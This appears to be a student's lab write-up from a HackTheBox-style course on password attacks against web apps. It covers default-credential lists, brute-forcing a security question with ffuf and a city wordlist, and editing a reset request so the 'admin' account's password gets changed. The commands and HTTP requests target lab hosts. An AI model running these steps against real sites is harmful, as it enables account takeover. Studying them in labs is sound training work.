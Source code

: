 # 👩‍🦰 Password Attacks

## Default Credentials

Many web applications are set up with default credentials to allow accessing it after installation. However, these credentials need to be changed after the initial setup of the web application

Here are lists of default credentials for a wide variety of web applications: [CIRT.net](https://www.cirt.net/passwords) also [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub

let's imagine the following web app:

<figure><img src="../../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>

We can spot it's a bookstack web app, we can then go and see if we can't find some default creds online ->

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Password Reset

### Guessable Password Reset

We could imagine questions like the following:

* "`What is your mother's maiden name?`"
* "`What city were you born in?`"

Then it's on us to chase for the good wordlist such as [this](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.

```shell-session
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
wc -l city_wordlist.txt 
```

so let's imagine after entering our username wer got asked a question, it would look like this:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now it's on us to craft a payload:

```shell-session
ElFelixi0@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

and then we can reset password

But let's imagine we had a nice osint phase, we could pretty much guess from which country is the person from the website or the social media, we can go deaper and make a more accurate list:

```shell-session
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

### Manipulating the Reset Request

let's imagine the following:

<figure><img src="../../../.gitbook/assets/image (1355).png" alt=""><figcaption></figcaption></figure>

```http
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

after that we have the security question ->

```http
<SNIP>
security_response=London&username=htb-stdnt
```

Finally, we can reset the user's password:&#x20;

```http
<SNIP>
password=P@$$w0rd&username=htb-stdnt
```

We can imagine that we can skip the security question and set the password of an entirely different account

```http
password=P@$$w0rd&username=admin
```

_**Which city is the admin user from?**_

<figure><img src="../../../.gitbook/assets/image (1356).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1357).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1358).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w city_wordlist.txt -u http://94.237.59.63:43371/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=j0527s0oqrj0q0s6qh30c626ma" -d "security_response=FUZZ" -fr "Incorrect response."
```

<figure><img src="../../../.gitbook/assets/image (1359).png" alt=""><figcaption></figcaption></figure>
